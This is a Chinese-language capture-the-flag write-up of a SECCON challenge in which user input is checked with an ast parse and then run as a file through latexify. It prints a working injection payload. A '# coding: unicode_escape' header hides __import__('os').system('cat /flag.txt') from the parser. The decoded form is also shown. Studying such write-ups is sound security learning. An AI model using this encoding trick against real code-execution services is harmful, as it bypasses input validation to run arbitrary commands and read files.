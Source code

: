         print()
        print("Result:")
        spec = util.spec_from_file_location("tmp", file.name)
        spec.loader.exec_module(util.module_from_spec(spec))
    ```

反正就是输入一个函数（只能是单独一个函数，不能有装饰器、类型注解等），然后拼接起来得到一个临时代码文件，然后运行。效果就是利用 v0.1.1 版本的 latexify 来讲这个函数转换为 LaTeX 语法的表示。flag 在 /flag.txt，要试图读取它。

翻了 latexify 的源码，v0.1.1 的代码很简单，主要就是 core.py 一个文件里遍历了一遍 ast 树。没有任何 eval 之类的、也没有任何调用部件的地方。题目也限制的很死，也没有调用的地方。唯一可能利用的是提供一个 print 函数试图在打印结果的时候调用，但是它又用的是 \_\_builtins\_\_["print"] 防止了这一行为。

想了很多、试了很多、也翻了源码，没做出来。

赛后看了 discord 上别人分享的 payload，很简单，改了一下就是：
```python
# coding: unicode_escape
def exp():
    return "\u0022\u000a__import__('os').system('cat /flag.txt')\u000a\u0022"
__EOF__
```
这个原理也很简单。就是在 get_fn_name 进行检查的时候是直接对输入进行 ast 解析然后检查语法树的，这时注释会被忽略，return 的字符串是完整的，所以一切检查都可以通过。

而当运行的时候是将其写入文件然后运行文件的。我们的输入在开头，第一行的注释就指定了文件编码为 unicode_escape，所以在运行的时候解码得到的就相当于：
```python
# coding: unicode_escape
def exp()
    return ""
__import__('os').system('cat /flag.txt')
""
import latexify
__builtins__["print"](latexify.get_latex({name}))
```
所以在执行的时候就会 cat flag 了: **SECCON{UTF7_is_hack3r_friend1y_encoding}**
